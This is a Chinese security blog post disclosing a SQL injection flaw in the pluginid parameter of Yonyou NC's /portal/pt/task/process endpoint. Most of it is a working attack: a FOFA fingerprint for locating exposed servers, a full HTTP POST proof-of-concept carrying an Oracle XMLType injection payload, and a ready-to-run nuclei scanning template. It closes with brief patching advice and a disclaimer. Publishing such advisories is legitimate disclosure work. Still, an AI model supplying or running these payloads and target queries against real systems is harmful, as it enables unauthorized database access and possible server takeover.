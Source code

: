 #  【SQL注入】用友NC process SQL注入漏洞   
原创 1ang  小羊安全屋   2024-11-25 06:49  
  
导言  
  
  
文章仅用作网络安全人员对自己网站、服务器等进行自查检测，不可用于其他用途，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。切勿用于网络攻击！！！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/reg3T0Fqiax8lPLzcDQicIfv49r4EgibnRuz10rNYiaBDlUaSfqrWgYrD36DPE4uiar4kHLq7x60wPaguey7Pz8BTOA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
PART   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/ktKCAuwAa8dmj6TprnPZe7wiasyw7EtyLyNy649qJ3lfwTtxWSKPhdzSJ7JicAxfkYSlAawXNCOmzhS3Rib2ZradA/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/bBPjSTVLnXbhGFgqz3CwuWdGELjD7wYzxM9mrvz9tUBAwaeMof26ca9fSicRezRV3vKt7a04AfuPcLoVBtgpYDw/640?wx_fmt=gif "")  
  
漏洞描述  
  
用友NC /portal/pt/task/process 接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/3RSJOISXa6jxhSggXrE9ibwcuRuSia2kIsFAHRbtYf5eb0O4TtXqn4yweC65OpzNRdrrnrkEYbjdqUkg9eIQVkHA/640?wx_fmt=gif "")  
  
漏洞复现  
  
漏洞URL：/portal/pt/task/process  
  
漏洞参数：pluginid  
  
F  O F A：icon_hash="1085941792"  
  
漏洞详情：  
  
1、打开系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lnzwRq0p4icHhia4pKK3z7TIOicqicCibwliaLULNcS1TqibAicAEFQnBz9SibqianzrfZPrhJ9vJiaZUtbjVQbXJSUXE6Dsg/640?wx_fmt=png&from=appmsg "")  
  
2、使用poc进行检测  
```
POST /portal/pt/task/process?pageId=login HTTP/1.1
Host: 127.0.0.1:5001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=A7ED8D2420C0517E62D9552E4831698B.server
Content-Type: application/x-www-form-urlencoded
Content-Length: 279


id=1&oracle=1&pluginid=1{{urlescape(' AND 7194=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(113)||CHR(98)||CHR(98)||CHR(113)||(SELECT (CASE WHEN (7194=7194) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(120)||CHR(120)||CHR(113)||CHR(113)||CHR(62))) FROM DUAL)-- dJyN)}}
```  
  
2、漏洞利用成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lnzwRq0p4icHhia4pKK3z7TIOicqicCibwliaLt2ASKh7ZWakibSnf7GmXaFhSvn7uTCRq4QywEUqVYZHAycDRHibic5ZdQ/640?wx_fmt=png&from=appmsg "")  
  
nuclei脚本  
```
id: 用友NC processSQL注入

info:
  name: 用友NC processSQL注入
  author: 1ang
  severity: high
  description: description
  reference:
    - https://
  tags: tags

http:
  - raw:
      - |-
        POST /portal/pt/task/process?pageId=login HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
        Accept: */*
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Connection: close
        Cookie: JSESSIONID=A7ED8D2420C0517E62D9552E4831698B.server
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 279


        id=1&oracle=1&pluginid=1{{urlescape(' AND 7194=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(113)||CHR(98)||CHR(98)||CHR(113)||(SELECT (CASE WHEN (7194=7194) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(120)||CHR(120)||CHR(113)||CHR(113)||CHR(62))) FROM DUAL)-- dJyN)}}

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - qqbbq1qxxqq
      - type: status
        status:
          - 200
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/bBPjSTVLnXbhGFgqz3CwuWdGELjD7wYzxM9mrvz9tUBAwaeMof26ca9fSicRezRV3vKt7a04AfuPcLoVBtgpYDw/640?wx_fmt=gif "")  
  
修复建议  
  
1、升级到最新版本；  
  
2、关闭系统互联网访问权限，或使用白名单访问。  
   
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3YqocLTzbGQjus64G8bmAyDCiaaE8IY57OmvR7bHq1UzAqRG0gme38uvdXggrrlmNJyePh4Ox1AI9oQ1PY8otRw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zQTAicxBBI1QaAzOgiblQicVnO8XZUWj6cpdOL8EHU0unLP9fGEBxdTZDXfHeeEGGibNzMYfxDgtyicKv8r5Q18UsyQ/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibpQMTribKicf2Xibe2qFYgtMw8UhDdllzZryYjianfS4LcHCAT7VWbjwoaZNF4lCAxUmFdIibmUrBibToxxt9QbGf3WQ/640?wx_fmt=png "")  
  
个人星球，欢迎加入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lnzwRq0p4icF88zkXzrnATODaPrYYSZ1ZUyicl3UZSdda9RxiavwPXEWfdn5WiboAA7HiavEZblfA9CLsFQKlxsU8Xg/640?wx_fmt=jpeg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2TVkuiaNYQGjWwnsmctvTmClxYzHJicxBiahOibtjQicH8vaCz7TPFMK0EsiczbQfwzlSNiaaU8akYibuIdpUCicYoFGZNQ/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1C21KZjMBaSHgMAvP4faiar3XTekytaNKOlc7UibOhTqxaA0iapiabBKVITYicR4NM125QTp9lYt9lylfI7LzfqkLsg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uNpMBR1pZOia18Kuib6Qukssk36955zGygr0vKFbclQLHMRSJqic5s7waKZlJrto2oTb42sYY7icxo5zcn24MjDSfA/640?wx_fmt=png "")  
  
  
  
  
**——The  End——**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaZREh6DtDyA9wcDsp0m1RNV9C4uiaagltPDn83s3k6Sw5DbfRWdGc25Q1WDNCpjZLXQpCxFfiaGT5ag/640?wx_fmt=gif "")  
  
  
